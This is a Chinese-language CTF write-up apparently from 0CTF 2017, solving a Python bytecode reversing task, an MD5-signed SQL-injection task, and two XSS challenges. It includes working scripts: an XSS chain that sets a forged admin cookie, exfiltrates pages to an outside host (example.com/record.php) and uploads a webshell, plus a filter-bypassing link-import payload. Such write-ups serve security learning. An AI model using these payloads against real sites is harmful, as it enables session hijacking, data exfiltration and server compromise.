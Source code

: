 ## py

利用`marshal.loads`我们人肉扣出encrypt字节码，并根据常量发现了pip里有rotor模块，对着字节码进行了如下脑洞：
```
\x99\x01\x00    load consts   key_a="!@#$%^&*"
\x68\x01\x00    store

\x99\x02\x00    load  consts  key_b="abcdefgh"
\x68\x02\x00    store

\x99\x03\x00    load  consts  key_c="<>{}:""
\x68\x03\x00    store

\x61\x01\x00    load_f key_a
\x99\x04\x00    load consts 4
\x46 *          key_a * 4

\x99\x05\x00    load consts |
\x27 +          key_a * 4 + "|"

\x61\x02\x00    load_f key_b
\x61\x01\x00    load_f key_a
\x27 +

\x61\x03\x00    load_f key_c
\x27 +          key_b + key_a + key_c

\x99\x06\x00    load consts 2
\x46 *          (key_b + key_a + key_c) * 2
\x27 +          key_a * 4 + "|" + (key_b + key_a + key_c) * 2

\x99\x05\x00    load consts |
\x27 +          key_a * 4 + "|" + (key_b + key_a + key_c) * 2 + "|"

\x61\x02\x00    load_f key_b
\x99\x06\x00    load consts 2
\x46 *          key_b * 2
\x27 +          key_a * 4 + "|" + (key_b + key_a + key_c) * 2 + "|" + key_b * 2

\x99\x07\x00    load consts "EOF"
\x27 +          key_a * 4 + "|" + (key_b + key_a + key_c) * 2 + "|" + key_b * 2 + "EOF"

\x68\x04\x00    store secret = key_a * 4 + "|" + (key_b + key_a + key_c) * 2 + "|" + key_b * 2 + "EOF"
\x9b\x00\x00    IMPORT rotor
\x60\x01\x00    PUSH rotor.rotor

\x61\x04\x00    load_f secret
\x83\x01\x00    CALL # rotor.rotor(secret)

\x68\x05\x00    store rot = rotor.rotor(secret)
\x61\x05\x00    load_f rot
\x60\x02\x00    PUSH rot.encrypt

\x61\x00\x00    load_f data
\x83\x01\x00    CALL # rot.encrypt(data)

\x53            return
```

其实`\x27`很容易就猜出来是字符串拼接`+`，但是`\x46`我们一开始猜测是SLICE+1, SLICE+2 (即string[x:]和string[:x])折腾了好久，后来才脑洞出来字符串操作还有一个`*`....
于是就出来了，把secret扔进去rotor模块在decrypt一下就好。

## KoG

发现`Module.main`会对参数为纯数字的时候进行签名后，传给api.php，但有其他字符时不予签名。
仔细观察`functionn.js`，可以发现经过c++符号修饰的函数名，可以扔到`c++filt`里查看：
```
~$ c++filt _ZN5HASH16updateEPKhj
HASH1::update(unsigned char const*, unsigned int)
```
可知有个HASH1的类，仔细寻找代码里隐藏的常数可以知道是md5。


```javascript
function __ZN5HASH16updateEPKhj($this,$input,$length) {
 $this = $this|0;
 $input = $input|0;
 $length = $length|0;
```
然后在上面的`__ZN5HASH16updateEPKhj`update函数入口下断点，每次停下的时候在console里把`HEAP`里的`$input`指针指向的位置打出来看看，就知道传入了哪些字符串。一开始程序会传入"Start_here_"作为提示，但后来发现这个字符串是不需要的。事实上，把其他传进来的字符串拼接后，发现`functionn.js`做的就是return md5("d727d11f6d284a0d%s This_is_salt%s" % (payload, timestamp))，然后我们就可以自己对payload签名了，在payload中进行sql注入即可。


脚本如下：
```py
# __ZN5HASH16updateEPKhj
payload = sys.argv[1]
print payload
hash = hashlib.md5("d727d11f6d284a0d%s This_is_salt1489820887"%payload).hexdigest()
print requests.get('http://202.120.7.213:11181/api.php', params={'id':payload, 'hash':hash, 'time':'1489820887'}).text
```

## Complicated XSS

输入`admin.government.vip:8000`会跳转到`admin.government.vip:8000/login`进行登录，
登录后在`admin.government.vip:8000/`处，发现Cookie中的username字段会直接打到HTML页面上，这里可以进行二次XSS。
所以在原始payload中，要设置cookie如`username=<script src='http://example.com/xss.js'></script>;domain=.government.vip;path=/`来进行2次XSS，在`admin.government.vip:8000`下XSS就没有域限制。


原始payload脚本（第一次XSS）如下：
```py
def solve(cap):
    print 'cap: %s' % cap
    for i in xrange(1000000000):
        if hashlib.md5(str(i)).hexdigest()[:len(cap)] == cap:
            return str(i)

s = requests.session()
resp = s.get('http://government.vip/').text
resp = resp[resp.index(" === '")+len(" === '"):]
resp = resp[:6]
task = solve(resp)
data =  {"task": task, 'payload': '''
<script>
function createCookie(name,value,days) {
    if (days) {
        var date = new Date();
        date.setTime(date.getTime() + (days * 24 * 60 * 60 *1000));
        var expires = "; expires=" + date.toGMTString();
    }
    else {
        var expires = "";
    }
    document.cookie = name + "=" + value + expires + ";domain=.government.vip;path=/";
}
function eraseCookie(name) {
    createCookie(name,"",-1);
}
eraseCookie("username");
// remember to ENCODE and REPLACE "BASE64_ENCODE_HERE(.)" in the payload below, or the end of script tag in the payload string makes trouble
document.cookie=atob(BASE64_ENCODE_HERE('''username=<script src='http://example.com/xss.js'></script>;domain=.government.vip;path=/'''));
document.write('<iframe src="http://admin.government.vip:8000/" id="i"></iframe>');
</script>
''', 'submit':'submit'}
print s.post('http://government.vip/run.php', data=data, headers={'Content-Type':'application/x-www-form-urlencoded'}).text
```


`http://example.com/xss.js`要做的事情如下：
1. 恢复cookie中的username为admin
2. 因为`admin.government.vip:8000/`中`delete XMLHttpRequest`，我们可以从`<iframe src='/login' id='iij'></iframe>`中的contentWindow中把XMLHttpRequest恢复出来。
3. 使用恢复后的XMLHttpRequest，用恢复后的Cookie: username=admin把`<iframe src='/' id='ii'></iframe>`的页面内容回传。


回传后，发现admin的`admin.government.vip:8000/`页面不是flag而是一个让你上传webshell的表单，那么接下来我们只需要把第三步改成：
3. 使用恢复后的XMLHttpRequest，用恢复后的Cookie: username=admin，往`/upload`POST一个webshell文件（其实什么内容都可以），把response回传。


`http://example.com/xss.js`如下：
```javascript
//'username=admin;domain=.government.vip;path=/'
document.cookie=atob('dXNlcm5hbWU9YWRtaW47ZG9tYWluPS5nb3Zlcm5tZW50LnZpcDtwYXRoPS8=');
document.write("<iframe src='/login' id='iij'></iframe><iframe src='/' id='ii'></iframe>");

function send2(x, p) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
    };
    xhr.open('POST', 'http://example.com/record.php?'+p+'='+btoa(x), true);
    xhr.send(null);
}

setTimeout(function(){
    var arr = ["Function","eval","alert","XMLHttpRequest","Proxy","Image","postMessage"];
    for(var i in arr) {
        i = arr[i];
        window[i] = document.getElementById('iij').contentWindow[i];
    }

    function send(url, data) {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", url, true);
        xhr.onreadystatechange = function () {
            if (xhr.readyState == 4)
                send2(xhr.responseText, 'resp');
        };
        var d = new FormData();
        d.append('file', new Blob([data]), 'agrnhte.php');
        xhr.send(d);
    }
    
    send("http://admin.government.vip:8000/upload", 'aaa');
}, 1000);

```


其实过程中遇到了玄学问题，比如它回传个400 BAD REQUEST什么就不谈了...


## simpleXSS

XSS payload只允许使用大小写字母数字加上`<^*~\-|_=+`这些特殊符号，那么大概只有两种方案：
1. 利用onload=A=B 可以作一句给A(通常是location)赋值B的简单js赋值操作
2. 利用某些奇怪的HTML标签特性


比赛时感觉方向1行不通，于是我走了方向2的思路。但方向1还真让某`LC↯BC`队https://ctftime.org/writeup/5956 脑洞出来了个奇葩思路，只能佩服下RMB玩家...不对，应该是$12.95 Dollar玩家orz


我们（nao）想（dong）出来的payload有如下几个关键点：
1. Chrome会把域名中的`。`（全角句号）理解成`.`
2. `<link rel=import`这种标签会把html import到当前页面里....N年前玩polymer的时候常用的一种标签...这里不能用script标签，因为script标签没有正常闭合时引用的js貌似不会被执行
3. `\\`会被Chrome理解成`//`，`\`也会理解成`/` （其实这里有个小插曲，我Win10上的Chrome会把`\\`理解成windows资源管理器里敲的那种`\\`也就是samba协议(或`file://`伪协议)...所以这种payload XSS Windows貌似是不行...?）， 因此`\\example。com\xssHtml`会变成`//example.com/xssHtml`


综上，payload:
```html
<link rel=import href=\\example。com\xssHtml other= 
```